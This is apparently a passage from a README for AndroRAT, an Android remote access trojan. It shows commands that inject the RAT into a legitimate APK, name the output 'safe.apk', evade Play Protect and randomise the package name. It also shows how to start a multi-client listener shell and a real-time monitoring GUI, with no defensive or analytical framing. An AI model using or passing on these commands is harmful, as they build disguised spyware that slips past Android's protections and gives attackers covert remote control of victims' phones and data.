 **Play Protect Bypass Focus:**
```bash
python3 server/androRAT.py --build --inject \
  --target-apk /path/to/app.apk -i IP -p PORT -o safe.apk \
  --play-protect-evasion --random-package
```

### 🔗 Connection Examples

**Start listener for multiple clients:**
```bash
python3 server/androRAT.py --shell -i 0.0.0.0 -p 8080
```

**Advanced GUI with real-time monitoring:**
```bash
python3 server/androRAT_advanced_gui.py
```

---

## 🎨 Screenshots

### 🖥️ Advanced Multi-Client GUI
![AndroRAT Advanced GUI](assets/gui_screenshot.png)
